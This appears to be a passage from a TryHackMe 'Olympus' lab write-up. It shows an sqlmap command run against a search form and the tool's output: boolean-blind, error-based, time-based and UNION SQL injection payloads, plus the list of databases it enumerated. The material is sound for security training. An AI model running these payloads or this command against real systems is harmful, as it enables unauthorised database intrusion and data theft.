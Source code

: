 ```
# Sqlmap Command

sqlmap -u "http://example.com/CMSsite/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```

The query to exploit the target server would be:

```
┌──(kali㉿kali)-[~/TryHackMe/Olympus]
└─$ sqlmap -u "http://olympus.thm/[REDACTED]/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```

And this is the result:

```
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: search=1337' OR NOT 2544=2544#&submit=
    Vector: OR NOT [INFERENCE]#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: search=1337' AND GTID_SUBSET(CONCAT(0x7162626271,(SELECT (ELT(1507=1507,1))),0x716a7a7a71),1507)-- GAkp&submit=
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=1337' AND (SELECT 8575 FROM (SELECT(SLEEP(5)))WKbh)-- ImoI&submit=
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: MySQL UNION query (NULL) - 10 columns
    Payload: search=1337' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162626271,0x75514243586846787567526f4c636d767156677857746e52494b68424d656a4d4442596c4665704f,0x716a7a7a71),NULL,NULL,NULL,NULL#&submit=
    Vector:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,[QUERY],NULL,NULL,NULL,NULL#
---
```

```
[12:17:22] [DEBUG] performed 1 query in 0.38 seconds
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
```
